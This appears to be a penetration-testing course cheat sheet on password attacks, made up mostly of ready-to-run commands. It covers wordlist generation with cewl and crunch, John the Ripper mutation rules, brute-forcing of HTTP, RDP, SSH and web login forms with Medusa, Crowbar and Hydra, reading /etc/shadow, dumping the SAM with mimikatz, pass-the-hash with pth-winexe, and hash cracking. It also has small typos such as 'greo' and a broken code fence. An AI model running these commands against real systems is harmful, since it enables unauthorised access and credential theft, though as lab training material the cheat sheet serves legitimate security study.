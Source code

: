 ### Password attack

```
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt


```

/etc/john/john.conf

locate the [List.Rules:Wordlist] segment where wordlist mutation rules are defined, and append a new rule. In this example, we will append the two-digit sequence of numbers from (double) zero to ninety-nine after each word in our wordlist.
We will begin this rule with the $ character, which tells John to append a character to the original word in our wordlist. Next, we specify the type of character we want to append, in our case we want any number between zero and nine ([0-9]). Finally, to append double-digits, we will simply repeat the $[0-9] sequence

```
kali@kali:~$ sudo nano /etc/john/john.conf ...
# Wordlist mode rules [List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words ...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password $[0-9]$[0-9]
...
```

#### Run John

```
 john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
```

### Generate password

Password pattern: Abc$#123

```
crunch 8 8 -t ,@@^^%%%

```

Supplying characters to use:
```
crunch 4 6 0123456789ABCDEF -o crunch.txt
```

Specifying predefined character-sets

```
 crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
```

### HTTP htaccess attack with Medusa

```
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

```

### RDP Protocol attack

```
sudo apt install crowbar

crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1

```

### SSH attack with THC-Hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

``
### HTTP POST Attack with THC-Hydra

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f

```
### Retrieving password hashes

```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a

hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e 5NAz/s7DQcAojRTWNpZX0'
Analyzing '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e 5NAz/s7DQcAojRTWNpZX0'
[+] SHA-512 Crypt

```

```
sudo greo root /etc/shadow


```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Pass the hash

```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd

```

#### Password cracking

```
sudo john hash.txt --format=NT
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt -- format=NT
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt

hashcat64.exe -b
```

The --fork option engages multiple processes to make use of more CPU cores on a single machine and --node splits the work across multiple machines.


